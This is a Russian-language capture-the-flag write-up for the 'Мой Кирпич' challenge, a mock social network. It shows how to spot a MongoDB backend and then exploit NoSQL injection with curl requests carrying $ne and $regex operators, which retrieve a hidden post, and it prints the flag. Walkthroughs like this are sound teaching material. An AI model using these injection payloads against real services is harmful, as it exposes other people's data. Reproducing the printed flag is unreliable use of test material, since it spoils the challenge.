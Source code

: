 # Мой Кирпич: Write-up

Перед нами социальная сеть. Мы можем видеть пять последних постов в целом, пять последних постов конкретного автора или добавлять новые посты.

Зайдём в Консоль разработчика в браузере и изучим, как возвращаются посты. Видим, что с сервера приходит JSON-массив из объектов постов:

```json
[
    {
        "_id": "5ebabc206ec49991593527f9",
        "author": "ivan",
        "text": "Я сегодня поработал на стройке новой школы, не отдавайте туда своих детей никогда!",
        "date": "2020-04-16 05:00:19.193000"
    }, 
    ...
]
```

С полями `author`, `text` и `date` всё понятно, а вот поле `_id` привлекает внимание: у него довольно нестандартное название и интересный формат. Поискав по запросу `database "_id"`, приходим к выводу, что это скорее всего MongoDB.

Обратим внимание на форму поиска по автору и на запрос, который она делает. Запрос уходит в тот же эндпоинт `articles`, только на этот раз это POST-запрос, в теле которого передаётся JSON-объект:

```json
{"author":"ivan"}
```

Если мы посмотрим на [формат запросов поиска в MongoDB](https://docs.mongodb.com/manual/reference/method/db.collection.find/#examples), то заметим, что они выглядят как обычные JSON-объекты. Интересно, как сервер обрабатывает пришедший запрос?

Проверим это, например, передав лишний параметр:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/1337f943a294a82819e3d/articles --data '{"author": "ivan", "bad": true}'
[]
```

Ничего не нашлось. Вероятно, наше поле попало в запрос. Более сложные условия, чем сравнения, в MongoDB выполняются с помощью [*операторов запроса*](https://docs.mongodb.com/manual/reference/operator/). Попробуем, например, оператор `$ne` — неравенство:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/1337f943a294a82819e3d/articles --data '{"author": {"$ne": "ivan"}}'
```

В ответ приходят 5 постов — действительно, мы не видим пост Ивана, но видим ещё один пост от `nagibator1972`. Можно воспользоваться оператором `$nin` и исключить все лишние записи, а можно воспользоваться оператором `$regex` — пост с флагом, скорее всего, содержит `ugra`:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.ugractf.ru/1337f943a294a82819e3d/articles --data '{"text": {"$regex": "ugra"}}'
```

Мы сразу же получаем пост с флагом.

Флаг: **ugra_validate_user_input_84fa9462c3d5**.
